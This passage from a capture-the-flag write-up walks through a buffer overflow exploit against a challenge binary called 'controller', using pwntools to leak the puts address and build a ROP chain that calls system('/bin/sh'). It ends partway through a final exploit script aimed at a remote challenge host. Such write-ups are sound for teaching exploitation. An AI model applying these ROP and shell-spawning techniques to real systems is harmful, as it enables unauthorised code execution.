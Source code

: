 - Using the above payload, I systematically got the error "Got EOF while reading in interactive".

Finally thanks to [this forum](https://reverseengineering.stackexchange.com/questions/21524/receiving-got-eof-while-reading-in-interactive-after-properly-executing-system), I was able to solve this problem and update the payload:

```python
ret = (rop_binary.find_gadget(['ret']))[0]  

ropchain = buffer + pwn.p64(ret) + pwn.p64(pop_rdi) + pwn.p64(bin_sh_addr) + pwn.p64(system_addr)
```

We end up sending this last ropchain and we use the `interactive()` method to interact with the shell:

```python
r.sendlineafter("Insert the amount of 2 different types of recources:", b"-2147483648 -2147418310")
r.sendlineafter(">", b"1")
r.sendlineafter(">", ropchain)

r.interactive()
r.close()
```

## 4. Final Exploit

```python
import pwn

host = "165.227.236.40"
port = 30519

remote = True

binary_path = './controller'
libc_path = './libc.so.6'
ld_path = './ld-2.27.so'
binary = pwn.ELF(binary_path)
libc = pwn.ELF(libc_path)
rop_binary = pwn.ROP(binary)

if remote:
    r = pwn.remote(host,port)
else:
    r = pwn.process([ld_path, binary_path], env={"LD_PRELOAD": libc_path})

r.sendlineafter("Insert the amount of 2 different types of recources:", b"-2147483648 -2147418310")
r.sendlineafter(">", b"1")

offset = 40
buffer = b"A" * offset

# Leak 
pop_rdi = (rop_binary.find_gadget(['pop rdi', 'ret']))[0]
plt_puts = binary.plt['puts']
got_puts = binary.got['puts']
main_addr = binary.symbols['main']

ropchain = buffer + pwn.p64(pop_rdi) + pwn.p64(got_puts) + pwn.p64(plt_puts) + pwn.p64(main_addr)
r.sendlineafter(">", ropchain)

r.recvline() # Problem ingored
leak = r.recvline().strip()
puts_addr = pwn.u64(leak.ljust(0x8, b"\x00"))
pwn.info("Puts address: 0x%x" % puts_addr)

```